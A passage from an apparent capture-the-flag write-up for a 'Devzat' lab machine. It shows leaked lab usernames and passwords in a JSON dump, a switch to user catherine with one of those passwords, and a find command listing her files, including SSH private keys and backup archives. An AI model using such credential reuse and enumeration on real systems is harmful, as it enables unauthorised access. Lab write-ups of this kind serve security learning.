 ```sh
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

## Switch User To Catherine

We have three users and what looks to be passwords. We know Catherine is the second user on the box, trying to SSH in as her didn't work but we can switch user:

```text
patrick@devzat:~$ su catherine
Password: 
```

Enumerating for anything owned by Catherine showed something interesting:

```text
catherine@devzat:~$ find / -group catherine -not -path "/proc/*" 2> /dev/null
/home/catherine
/home/catherine/.profile
/home/catherine/.cache
/home/catherine/.cache/motd.legal-displayed
/home/catherine/.bashrc
/home/catherine/.ssh
/home/catherine/.ssh/id_rsa.pub
/home/catherine/.ssh/id_rsa
/home/catherine/.ssh/known_hosts
/home/catherine/.ssh/authorized_keys
/home/catherine/user.txt
/home/catherine/.gnupg
/home/catherine/.gnupg/private-keys-v1.d
/home/catherine/.bash_logout
/var/backups/devzat-main.zip
/var/backups/devzat-dev.zip
```

## Discovered Backups
